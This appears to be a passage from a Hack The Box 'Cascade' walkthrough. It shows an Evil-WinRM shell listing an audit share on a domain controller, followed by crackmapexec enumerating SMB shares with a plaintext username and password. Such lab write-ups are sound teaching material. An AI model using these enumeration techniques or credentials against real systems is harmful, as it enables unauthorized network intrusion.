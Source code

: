 ```bash
Access to the path 'C:\Shares' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\Shares:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

```

However, I can just go into `Audit` based on the share name in the comment:

```bash
*Evil-WinRM* PS C:\Shares> cd audit
*Evil-WinRM* PS C:\Shares\audit> ls

    Directory: C:\Shares\audit

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll

```

I can also access this share from my local box:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ crackmapexec smb 10.10.10.182 -u s.smith -p sT333ve2 --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```
